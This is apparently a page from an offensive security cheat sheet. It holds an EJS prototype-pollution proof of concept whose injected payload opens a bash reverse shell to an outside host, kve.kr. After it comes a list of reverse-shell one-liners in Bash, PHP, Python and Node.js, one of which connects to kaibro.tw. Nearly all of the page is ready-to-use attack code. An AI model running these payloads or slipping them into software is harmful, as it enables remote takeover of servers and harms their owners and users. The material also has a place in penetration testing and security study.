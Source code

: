 ### destructuredLocals (Unknown)

```javascript
// https://github.com/mde/ejs/blob/main/lib/ejs.js#L610
const express =  require('express');
const app = express();

app.set('views', __dirname + '/template');
app.set('view engine', 'ejs');

Object.prototype.destructuredLocals = ["a=22;throw process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/kve.kr/12345 0>&1'`)//"];

app.get('/', (req, res) => {
    res.render('index.ejs');
});

app.listen(3333);
```

---
## Reverse Shell 

### Bash 
```
bash -i >& /dev/tcp/domain/port 0>&1
bash -c 'bash -i >& /dev/tcp/domain/port 0>&1'
0<&196;exec 196<>/dev/tcp/domain/port; sh <&196 >&196 2>&196
```

### PHP 
```php
php -r '$sock=fsockopen("domain",port);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Python 
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("kaibro.tw",5566));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Node.js 
```javascript
var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(port, "domain", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});

require('child_process').exec("bash -c 'bash -i >& /dev/tcp/domain/port 0>&1'");
```
